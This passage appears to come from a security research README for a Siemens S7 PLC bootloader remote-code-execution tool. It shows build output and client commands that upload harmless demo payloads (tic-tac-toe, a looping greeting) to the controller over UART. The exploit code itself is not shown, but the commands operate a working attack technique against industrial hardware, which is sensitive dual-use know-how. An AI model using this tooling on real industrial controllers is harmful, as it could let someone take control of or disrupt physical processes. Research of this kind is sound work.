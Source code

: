 




### DEMO 2: Upload and execution Tic-tac-toe inside the S7 PLC


In this demo we decided to upload the Tic-tac-toe game to the PLC. The goal of this demo is to demonstrate running more complex form of programs inside the PLC. To upload the game, you need to first compile it: 



```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce/payloads/tic_tac_toe$ make
cc tic_tac_toe.c
cc ../lib/stdlib.c
cc ../lib/print.c
cc ../lib/string.c
cc ../lib/read.c
ld tic_tac_toe.sym
strip tic_tac_toe
objcopy tic_tac_toe.ihex
objcopy tic_tac_toe.bin
```

Now we must use the tictactoe mode of our script utility as it allows us to interact with the PLC and have stream of input/output:


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh client.sh --switch-power --powersupply-fx3u-ip 192.168.1.18 --powersupply-fx3u-port 502 --powersupply-fx3u-output Y0 --powersupply-delay=1 tictactoe --payload=payloads/tic_tac_toe/build/tic_tac_toe.bin
```

**With manual power cycle using `--no-power-supply`:**
```console
# Replace <PORT> with the TCP port socat is listening on.
# Manually power cycle the PLC.
python3 client.py --port <PORT> --no-power-supply tictactoe --payload payloads/tic_tac_toe/build/tic_tac_toe.bin
```

Note that the tictactoe mode, allow us to use alternative payloads using `--payload` argument. So we are not bounded to only use the `tic_tac_toe.bin` payload.


### DEMO 3: Running the Greetings From PLC in an infinite loop

We have alternate version of `hello_world` which the PLC instead of sending a single string `TEST` back to the client utility, it will send string `Gretings from PLC` in an infinite loop to the client utility. This payload is located inside `uart_rce/payloads/hello_loop/`. Since this payload is written in C, you need to compile it using make command:


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce/payloads/hello_loop$ make
cc hello_loop.c
cc ../lib/stdlib.c
cc ../lib/print.c
cc ../lib/string.c
cc ../lib/read.c
ld hello_loop.sym
strip hello_loop
objcopy hello_loop.ihex
objcopy hello_loop.bin
```
